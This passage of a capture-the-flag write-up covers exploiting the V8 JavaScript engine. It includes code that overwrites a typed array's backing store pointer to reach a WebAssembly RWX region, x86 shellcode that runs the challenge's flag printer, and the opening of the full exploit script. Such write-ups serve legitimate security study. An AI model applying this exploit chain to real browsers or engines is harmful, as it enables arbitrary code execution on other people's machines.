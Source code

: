 Afterwards we can setup our arbitrary write to outside the v8 heap using
a typed array, and overwrite its backing store pointer to our rwx segment.

```js
var buf = new ArrayBuffer(0x100)
var uint8_arr = new Uint8Array(buf)
var buf_addr = addrof(buf)

// offset to backing store ptr at 0x60
var backing_addr = buf_addr + 0x60n

// overwrite backing store ptr so all uint8_arr access happen in the rwx segment
arb_w(backing_addr, rwx)
```
<br>

After that, its a simple matter of copying in our shellcode and running
`wasm_func()`. I used [this](https://defuse.ca/online-x86-assembler.htm#disassembly) to generate the shellcode array.
<br>

```js
// execve /chal/flagprinter
var shellcode = [0x48, 0xC7, 0xC0, 0x3B, 0x00, 0x00, 0x00, 0x48, 0x31, 0xF6, 0x48, 0x31, 0xD2, 0x48, 0xC7, 0xC1, 0x72, 0x00, 0x00, 0x00, 0x51, 0x48, 0xB9, 0x61, 0x67, 0x70, 0x72, 0x69, 0x6E, 0x74, 0x65, 0x51, 0x48, 0xB9, 0x2F, 0x63, 0x68, 0x61, 0x6C, 0x2F, 0x66, 0x6C, 0x51, 0x48, 0x89, 0xE7, 0x0F, 0x05]


// backing store now points to the rwx segment, copy in our shellcode
for (let i = 0; i < shellcode.length; i++) {
    uint8_arr[i] = shellcode[i]
}

// run shellcode
wasm_func();
```
<br>
![flag](/assets/images/ductf2020/flag.jpg)
<br>

Thanks faith!!!

----[ - Full exploit code

```js
// Helper functions to convert between float and integer primitives
// taken from this writeup: https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { // typeof(val) == float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) == BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
```